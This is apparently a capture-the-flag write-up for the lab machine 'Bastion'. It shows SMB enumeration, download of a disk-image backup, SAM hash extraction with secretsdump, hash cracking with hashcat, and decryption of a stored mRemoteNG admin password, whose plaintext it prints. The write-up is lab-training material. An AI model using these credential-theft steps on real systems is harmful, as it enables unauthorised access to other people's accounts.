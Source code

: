 ## Bastion

Difficulty: Easy

### User Flag

```
rustscan -a 10.10.10.134 --ulimit 5000 -- -A -sV -sC -oN nmap.txt -Pn
```

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/1c588381-d52b-4872-ad9b-249dbedbb4ca)

<br>

```
smbclient -L //10.10.10.134

smbclient //10.10.10.134/Backups

smbclient -m SMB2 -N '//10.10.10.134/Backups' -c 'timeout 120; iosize 16384; get \"WindowsImageBackup\L4mpje-PC\Backup 2019-02-22 124351\9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd" ' -U " "

# We could mount SMB on our machine
mount -t cifs //10.10.10.134/Backups /mnt/smb
```

![smbList](https://github.com/b1d0ws/OSCP/assets/58514930/06ba68ce-691f-4112-a84b-4f165373ccd1)

![connectingSMB](https://github.com/b1d0ws/OSCP/assets/58514930/6bc1f8d8-7589-4a6f-a92c-404d9b9a841a)

![downloadingVHD](https://github.com/b1d0ws/OSCP/assets/58514930/fb0e3138-3b21-49a9-99c6-0d824e6db67b)

<br>

Mount .vhd with [this tutorial](https://linux.how2shout.com/mount-virtual-hard-disk-vhd-file-ubuntu-linux/).

```
sudo guestfish --ro -a backup.vhd

run
list-filesystems
exit

sudo guestmount -a backup.vhd -m /dev/sda1 --ro /mnt/test
```

![guestfish](https://github.com/b1d0ws/OSCP/assets/58514930/73af2da8-b477-4da7-a73f-a291c2abbb3e)

![moutingVHD](https://github.com/b1d0ws/OSCP/assets/58514930/6d6e3c82-bcfe-4644-8e08-406fe90eae31)

<br>

We can now extract SAM and SYSTEM and get hashes with impacket-secretsdump.

```
impacket-secretsdump -sam SAM -system SYSTEM local
```

![secretsdump](https://github.com/b1d0ws/OSCP/assets/58514930/74b185fd-4423-4c27-94ef-4613d7149e44)

<br>

Crack it with hashcat.

```
hashcat -m 1000 hashes /usr/share/wordlists/rockyou.txt --force --potfile-disable
```

![hashcat](https://github.com/b1d0ws/OSCP/assets/58514930/fdb1111f-8c0a-4755-beac-bd942bcbab4f)

<br>

### Root Flag

Enumerating program files x86, we discover that mRemoteNG is on the machine.

![mRemoteNG](https://github.com/b1d0ws/OSCP/assets/58514930/7997a063-467e-457d-b70e-4f092d047a9d)

<br>

We can extract passwords from this application as taught [here](https://ethicalhackingguru.com/how-to-exploit-remote-connection-managers/) and login with SSH or psexec.

```
type C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml
Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="

python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2
```

![gettingAdminPassword](https://github.com/b1d0ws/OSCP/assets/58514930/99563c53-df4e-419a-8a96-428f36805d12)

![crackingAdminPassword](https://github.com/b1d0ws/OSCP/assets/58514930/771d3bd5-e340-4106-b003-12688c23eac5)
